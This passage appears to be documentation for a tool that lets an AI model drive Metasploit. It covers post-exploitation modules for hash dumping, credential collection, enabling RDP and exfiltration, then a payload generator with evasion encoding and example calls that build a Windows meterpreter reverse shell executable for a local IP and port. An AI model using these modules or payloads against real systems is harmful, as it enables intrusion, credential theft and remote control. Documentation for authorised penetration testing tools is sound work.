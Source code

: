 | Module | Purpose |
|--------|---------|
| `windows/gather/hashdump` | Extract password hashes |
| `windows/gather/enum_applications` | List installed software |
| `windows/gather/credentials/credential_collector` | Collect credentials |
| `linux/gather/enum_system` | System information |
| `multi/gather/env` | Environment variables |
| `multi/recon/local_exploit_suggester` | Find privilege escalation exploits |
| `windows/manage/enable_rdp` | Enable Remote Desktop |

**Use Cases**:
- Privilege escalation preparation
- Credential harvesting
- System enumeration
- Lateral movement setup
- Data exfiltration

**Prerequisites**:
- Active session must exist
- Session type must be compatible with module
- Sufficient privileges on target system

---

## Payload Generation

### 6. generate_payload

**Purpose**: Generate executable payload files using Metasploit's payload generator.

**Parameters**:
- `payload_type` (required, string): Payload type (e.g., "windows/meterpreter/reverse_tcp")
- `format_type` (required, string): Output format ("exe", "elf", "python", "raw", etc.)
- `options` (required, dict): Payload options (LHOST, LPORT, etc.)
- `encoder` (optional, string): Encoder to use for evasion
- `iterations` (optional, int): Encoding iterations (default: 0)
- `bad_chars` (optional, string): Bad characters to avoid (e.g., "\x00\x0a\x0d")
- `nop_sled_size` (optional, int): NOP sled size (default: 0)
- `template_path` (optional, string): Path to executable template
- `keep_template` (optional, bool): Keep template working (default: false)
- `force_encode` (optional, bool): Force encoding (default: false)
- `output_filename` (optional, string): Desired filename

**Returns**:
- Dictionary with status, payload size, format, and save path

**Example Usage**:

```python
# Natural language with AI
"Generate a Windows reverse shell exe that connects to my IP on port 4444"
"Create a Linux meterpreter payload for 192.168.1.10:8080"
"Generate a Python payload with shikata encoding"

# Direct tool call
generate_payload(
    payload_type="windows/meterpreter/reverse_tcp",
    format_type="exe",
    options={"LHOST": "192.168.1.10", "LPORT": 4444}
)

```